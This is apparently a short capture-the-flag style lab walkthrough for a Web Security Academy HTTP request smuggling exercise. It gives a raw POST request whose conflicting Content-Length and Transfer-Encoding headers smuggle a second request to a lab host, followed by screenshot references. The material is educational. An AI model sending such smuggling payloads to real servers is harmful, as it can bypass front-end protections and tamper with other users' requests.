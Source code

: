 

Using Burp Repeater, issue the following request twice:

```http
POST / HTTP/1.1
Host: 0a330052042eac39819161e2004a00d4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

The second request should receive an HTTP 404 response


![](/static/img/Pasted_image_20231201083417.png)

![](/static/img/Pasted_image_20231201083427.png)

